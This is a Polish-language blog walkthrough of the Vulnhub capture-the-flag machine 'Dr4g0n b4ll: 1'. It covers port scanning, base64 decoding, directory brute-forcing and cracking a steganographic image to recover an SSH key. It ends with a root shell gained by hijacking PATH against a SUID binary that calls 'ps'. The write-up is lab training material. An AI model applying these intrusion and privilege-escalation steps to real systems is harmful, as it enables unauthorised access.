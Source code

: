 ```yaml
---
title: "Dr4g0n b4ll: 1"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough  
tags:
  - Hacking
  - Vulnhub
  - Walkthrough
  - Dr4g0nB4ll
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/07/01.jpg
    image_path: /assets/images/hacking/2021/07/01.jpg
  - url: /assets/images/hacking/2021/07/02.jpg
    image_path: /assets/images/hacking/2021/07/02.jpg
gallery3:
  - url: /assets/images/hacking/2021/07/03.png
    image_path: /assets/images/hacking/2021/07/03.png
gallery4:    
  - url: /assets/images/hacking/2021/07/04.png
    image_path: /assets/images/hacking/2021/07/04.png
gallery5:
  - url: /assets/images/hacking/2021/07/05.png
    image_path: /assets/images/hacking/2021/07/05.png
---
```

# Dr4g0n b4ll: 1
Write-up is in Polish language.

# Metainfo

|:----|:----|
|Nazwa:|Dr4g0n b4ll: 1|
|Autor:|[Mr_xmen](https://www.vulnhub.com/author/mr_xmen,777/)|
|Wypuszczony:|14.01.2021|
|Do ściągnięcia:|[Stąd](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/) - Vulnhub|
|Poziom:|Łatwy|
|Nauczysz się:|Metasploit, Base64, Stegcracker, C|

# Wstęp
Wydany na początku stycznia 2021 [Dr4g0n b4ll: 1](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/), jak to autorzy wspominają jest bardzo prostą maszyną, jednak w maju utknąłem na niej w połowie, ponieważ wcześniej nie miałem do czynienia ze stenografią. Jedna po zaliczeniu paru podatnych obrazów, trochę wiedzy przybyło i spróbowałem jeszcze raz. Jak zwykle, żeby wszystko działało pod XCP-NG trzeba zmodyfikować [**Grub**a](https://kerszl.github.io/hacking/xcp-ng-i-vulnhub/). Co do poziomu, to prostota prostocie nierówna, ostatnio też bawiłem się maszyną [Hack Me Please: 1](https://www.vulnhub.com/entry/hack-me-please-1,731/), ale ona już dla mnie taka prosta nie była, jak pisał autor. Przypominała bardziej prawdziwą sytuację, niż taką upstrzoną zagadkami. W hack-me-please niestety posiłkowałem się [solucją](https://nepcodex.com/2021/08/hack-me-please-walkthrough-vulnhub/) na necie. Inny typ zadania, ale zawsze jest jakieś nowe doświadczenie. Wracając do **Dragon Ball**a, jest ciekawy trik na końcu, który nieraz się wam może przydać, ale to na końcu. :smiley:
{: .text-justify}
## Zaczynamy
Jak zwykle skanujemy porty **Nmap**em. Możemy pod **Metasploit**em, albo bez. Ja wolę użyć **Metasploit**a, bo mam potem wszystkie ip, hasła, otwarte porty w jednym miejscu. Co do **Shell**a, to niekoniecznie, czasami wolę się wbić normalnie przez **SSH**, niż potem ulepszać **Meterpreter**, ale co kto woli.
{: .text-justify}
```bash
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.113
...
msf6 exploit(multi/handler) > services
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.113  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
172.16.1.113  80    tcp    http  open   Apache httpd 2.4.38 (Debian)
```
## Co na stronie piszczy?
Otwarte są tylko 2 porty: **22** i **80**. Na Stronie **WWW** mamy zdjęcia z anime **Dragon Ball**.
{% include gallery id="gallery1_2"  %}
To tylko ozdoba. Prawdziwa przygoda zaczyna się w kodzie strony. Na samym dole jest zakodowany napis:
{: .text-justify}
{% include gallery id="gallery3"  %}
Po trzykrotnym rozkodowaniu mamy napis **DRAGON BALL**:
{: .text-justify}
```bash
# echo -n VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09 | base64 -d
# echo -n UkZKQlIwOU9JRUpCVEV3PQ== | base64 -d
# echo -n RFJBR09OIEJBTEw= | base64 -d
DRAGON BALL
```
Radzę pisać z przełącznikiem **-n**, teraz odkoduje tak samo, ale podczas kodowania base64 bez **-n** wychodzą inne rzeczy,koduje dodatkowo znak nowej linii **0x0a**.
{: .text-justify}
{: .notice--info}
Skanowanie **Gobuster**em:
```bash
# gobuster dir -u http://172.16.1.124 -w /usr/share/wordlists/dirb/common.txt
```
I mamy parę ciekawych rzeczy:
http://172.16.1.124/robots.txt
{: .text-justify}
{: .notice--info}
Ponownie dekodujemy:
{: .text-justify}
```bash
# echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
# echo -n ZVc5MUlHWnBibVFnZEdobElHaHBaR1JsYmlCa2FYST0K  | base64 -d
# echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
you find the hidden dir 
```
Jest komunikat, żeby szukać ukryty katalog:
**http://172.16.1.113/DRAGON%20BALL/Vulnhub/**
{: .text-justify}
{: .notice--info}
Poniżej zawartość:
{: .text-justify}
{% include gallery id="gallery3"  %}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/login.html
{: .text-justify}
{: .notice--info}
{% include gallery id="gallery4"  %}
## Stenografia
Strona poprawnie nie działa, ale mamy login. i jest ciekawy obrazek **aj.jpg**:
{: .text-justify}
{% include gallery id="gallery5"  %}
Rozkodujmy go:
{: .text-justify}
```bash
# root@kali:/home/szikers/dr4g0n_b4ll# stegcracker aj.jpg
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which
will blast through the rockyou.txt wordlist within 1.9 second as opposed
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'aj.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: love
Tried 451 passwords
Your file has been written to: aj.jpg.out
love
```
Podglądamy co to za plik:
{: .text-justify}
```bash
# root@kali:/home/szikers/dr4g0n_b4ll# file aj.jpg.out
aj.jpg.out: OpenSSH private key
```
## Lądujemy do Shella
Mamy klucz, więc możemy się dostać do shella, spróbujmy z loginem **xmen**:
{: .text-justify}
```bash
# ssh -i id_rsa xmen@172.16.1.113
```
Poszło:
Mamy ciekawy katalog script, ale poszukajmy plików, które mają ustawiony bit suid, może się coś ciekawego znajdzie:
{: .text-justify}
```bash
# xmen@debian:~/script$ find / -perm -4000 2> /dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```
Ciekawa jest zawartość: **/home/xmen/script/shell**
{: .text-justify}
```bash
# xmen@debian:~$ ls script/ -lah
total 32K
drwxr-xr-x 2 root root 4.0K Jan  4  2021 .
drwxr-xr-x 5 xmen xmen 4.0K Aug  9 07:17 ..
-rw-r--r-- 1 root root   75 Jan  4  2021 demo.c
-rwsr-xr-x 1 root root  17K Jan  4  2021 shell
```
W **demo.c** widać krótki kod źródłowy. Program przechodzi na uprawnienia **Root**a i uruchamia program **ps**:
{: .text-justify}
<div class="notice--primary" markdown="1">
demo.c
```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```
</div>
Program **./shell** uruchamia **ps** z uprawnieniami **root**a:
```bash
# xmen@debian:~/script$ ./shell
  PID TTY          TIME CMD
  5013 pts/0    00:00:00 shell
  5014 pts/0    00:00:00 sh
  5015 pts/0    00:00:00 ps
```
Nie mamy podanej całej ścieżki do **ps**, więc możemy to wykorzystać. Stwórzmy program w katalogu domowym:
{: .text-justify}
```bash 
# file=/home/xmen/ps; touch $file && echo '/bin/bash' > $file && chmod +x $file
```
A następnie wyedytujmy zmienną **PATH**, żeby na początku szukała **ps** w naszym katalogu domowym: **PATH="/home/xmen:$(echo $PATH)"**
{: .text-justify}
```bash
# xmen@debian:~/script$ echo $PATH
/home/xmen:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
# xmen@debian:~/script$ ./shell
# root@debian:~/script# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
```
## Słowo na koniec
I to właśnie jest przestroga, żeby bardzo uważnie pisać pliki, jeżeli chcemy dać uprawnieniami **suid**. **ps** przecież jest niegroźny, ale można zakombinować i zrobić, żeby był niebezpieczny.
{: .text-justify}
{: .notice--danger}
